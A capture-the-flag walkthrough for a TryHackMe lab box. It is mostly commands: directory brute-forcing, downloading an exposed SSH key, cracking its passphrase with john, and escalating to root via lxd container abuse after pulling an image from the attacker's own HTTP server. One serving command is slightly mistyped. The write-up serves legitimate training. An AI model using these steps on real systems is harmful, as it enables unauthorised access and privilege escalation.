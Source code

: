 ```yaml
---
description: https://tryhackme.com/room/gamingserver
---
```


# GamingServer

## :writing\_hand: Solution

### What is the user flag?

```
nmap 10.10.184.26

```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 08-36-54.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-29 08-39-39.png>)

```
gobuster dir -u http://10.10.184.26 \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 09-24-01.png>)

```
wget http://10.10.184.26/uploads/dict.lst
wget http://10.10.184.26/secret/secretKey
chmod 600 secretKey
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 08-40-28.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-29 08-40-11.png>)

```
/usr/share/john/ssh2john.py secretKey > ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 08-48-40.png>)

```
ssh -i secretKey john@10.10.184.26
$ ls -A
$ cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 08-50-18.png>)

### What is the root flag?

#### Kali

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder/
./build-alpine -a i686
python3 http.server
```

#### Host

```
wget http://10.9.101.193:8000/alpine-v3.12-i686-20200929_0907.tar.gz
lxc image import ./alpine-v3.12-i686-20200929_0907.tar.gz --alias myimage
lxc image list
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 09-11-15.png>)

```
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
~ # cat /mnt/root/root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-29 09-16-29.png>)

## :link: Support Material

{% embed url="https://www.hackingarticles.in/lxd-privilege-escalation/" %}

{% embed url="https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation" %}

